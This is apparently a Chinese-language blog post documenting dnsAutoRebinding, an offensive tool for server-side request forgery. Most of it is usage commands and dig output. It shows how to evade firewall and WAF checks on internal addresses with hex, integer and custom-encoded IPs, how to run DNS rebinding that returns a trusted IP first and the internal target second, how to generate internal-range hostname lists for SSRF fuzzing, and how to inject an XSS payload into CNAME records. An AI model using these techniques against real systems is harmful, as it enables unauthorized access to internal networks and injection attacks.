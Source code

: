 ```yaml
---
layout: post
title: Dns Auto Rebinding
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf时难免会被防火墙拦截恶意返回值，使用过xip.io但效果一般。项目地址：
<a target="_blank" href="https://github.com/Tr3jer/dnsAutoRebinding">Github</a>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf、ssrf内网地址fuzz、dns二次rebinding、支持ipv4/ipv6、支持ip地址转换码、dns记录污染(文末一个0day为例)。脑图在脑子里，懒得画了。

support Record Type and Encoding：

```
MX = ipv4/ipv6/hex
A = ipv4/en/int/hex
AAAA = ipv6/int/hex
CNAME = ipv4/ipv6/hex
```

配置监听服务器example.com：

| record type | record | record value |
| --- | --- | --- |
| A | ns | server ip |
| NS | test | ns.example.com |

> sudo pip install ipaddr

修改lib/config.conf：
maindomain = test.example.com.
注意根地址.要加

```
Usage: sudo python main.py {Options}

Options:
  -h, --help            show this help message and exit
  -t 300, --TTL=300     ttl value , 0 By Default
  -y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX
                        Record Type , A By Default
  -e int/hex/en, --Encoding=int/hex/en
                        Record Encoding , None By Default
  -r, --Rebinding       The Second Time Query Return Target Ip
  -p "<script>alert(/xss/)</script>", --payload="<script>alert(/xss/)</script>"
                        Specified Record , Support CNAME/MX

```

-y选项指定以什么记录类型返回：

`-y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX Record Type , A By Default`

-t选项指定TTL值：

`-t 300, --TTL=300     ttl value , 0 By Default`

直接A记录返回ipv4地址：

`sudo ./main.py`

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		227	IN	NS	ns.example.com.
```

server:
`[21:54:16] client ip:44486 => A => 192.168.1.1.test.example.com.`

hex编码：

`sudo ./main.py -e hex`

```
➜  ~ dig 31302e302e302e31.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 31302e302e302e31.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1585
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;31302e302e302e31.test.example.com.	IN	A

;; ANSWER SECTION:
31302e302e302e31.test.example.com. 0 IN	A	10.0.0.1

;; AUTHORITY SECTION:
test.example.com.		600	IN	NS	ns.example.com.
```

server:
`[22:00:42] client ip:30150 => A => 31302e302e302e31.test.example.com.`

int编码：

`sudo ./main.py -e int`

```
➜  ~ dig 3232235777.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 3232235777.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18066
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;3232235777.test.example.com.	IN	A

;; ANSWER SECTION:
3232235777.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		456	IN	NS	ns.example.com.
```

server:
`[22:03:00] client ip:5240 => A => 3232235777.test.example.com.`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;因为waf会识别出内网地址才用的上本项目，那么waf大可识别进制转换这种，所以要自己写个地址转换方法：

num to en:

```
./lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]
bjckbgikbkb
```

`sudo ./main.py -e en`

```
➜  ~ dig bjckbgikbkb.test.example.com

; <<>> DiG 9.8.3-P1 <<>> bjckbgikbkb.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5115
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;bjckbgikbkb.test.example.com.	IN	A

;; ANSWER SECTION:
bjckbgikbkb.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		20	IN	NS	ns.example.com.
```

server:
`[22:10:22] client ip:8434 => A => bjckbgikbkb.test.example.com.`


dns二次rebinding:
```
sudo ./main.py -r
Input Safe Ip? [Address/Req By Default]8.8.8.8
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;选择性输入目标信任的地址，比如在ssrf时防火墙在验证dns返回值是否存在于白名单。默认为发起请求的地址。(记得特殊情况需要指定记录类型)


第一次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59544
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	8.8.8.8

;; AUTHORITY SECTION:
test.example.com.		461	IN	NS	ns.example.com.
```

第二次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45312
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		501	IN	NS	ns.example.com.
```

dns记录污染：

`sudo ./main.py -p "<script>alert(/xss/)</script>" -y CNAME`

```
➜  ~ dig test.example.com

; <<>> DiG 9.8.3-P1 <<>> test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5073
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;test.example.com.			IN	A

;; ANSWER SECTION:
test.example.com.		0	IN	CNAME	<script>alert\(/xss/\)</script>test.example.com.
```

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/0day.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这个怎么玩取决于你的小脑袋瓜的脑回路了。如果防火墙还要验证是否为信任地址的话修改lib/common.py：

```
elif payload != 'None' and payload.find(mainDomain) == -1:
    record = payload + "信任地址."
```

ipListBuild:
批量生成网段地址，选择性编码，适合ssrf内网地址fuzz。

```
python lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]2
[+] Please Input Segment Length [24 By Default]
[+] Please Input Encoding ['ipv4' By Default]hex
[+] Please Input Server Root Address [test.example.com By Default]
[+] Stored in the 20170625223912_test_example_com_hex.txt
[root@VM_34_252_centos dnsAutoRebinding]# head -n 5 20170625223912_test_example_com_hex.txt
3139322e3136382e312e31.test.example.com
3139322e3136382e312e32.test.example.com
3139322e3136382e312e33.test.example.com
3139322e3136382e312e34.test.example.com
3139322e3136382e312e35.test.example.com
```


